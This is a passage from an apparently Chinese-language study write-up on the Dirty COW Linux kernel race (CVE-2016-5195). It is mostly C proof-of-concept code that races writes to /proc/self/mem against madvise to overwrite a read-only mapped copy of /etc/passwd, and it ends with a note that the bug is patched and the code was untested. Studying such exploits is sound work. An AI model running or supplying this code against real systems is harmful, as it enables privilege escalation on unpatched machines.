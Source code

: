 ```c
    /*对/etc/passwd.bak的内存，进行写入操作，出发COW*/
    int f = open("/proc/self/mem",O_RDWR);
    while (1){
        lseek(f,(__off_t)position,SEEK_SET);
        write(f,new_content,strlen(new_content));
    }
    
}


void *madviseThread(void *arg){
    struct file_info *pth2_arg = (struct file_info*)arg;
    while (1){
        madvise(pth2_arg->map,pth2_arg->file_size,MADV_DONTNEED);//丢弃新的内存位置，map指向原来位置
    }
    
}


int main(void){
    struct stat st;

    /*将/etc/passwd.bak映射进入内存*/
    int f = open("/etc/passwd.bak",O_RDONLY);
    fstat(f,&st);
    void *map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);

    //传递给线程的变量
    char *position = strstr(map,"dacao:x:1000");
    struct file_info pth2_arg;
    pth2_arg.file_size = st.st_size;
    pth2_arg.map = map;

    pthread_t pth1,pth2;
    pthread_create(&pth1,NULL,writeThread,position);
    pthread_create(&pth2,NULL,madviseThread,&pth2_arg);

    pthread_join(pth1,NULL);
    pthread_join(pth2,NULL);

    return 0;
}
```

<br>

## 4. 结果

这个漏洞已经修复，我也偷懒没有去虚拟机安装一个旧版本的内核进行尝试。

可以参看：[CVE-2016-5195漏洞分析与复现](https://xz.aliyun.com/t/7561)
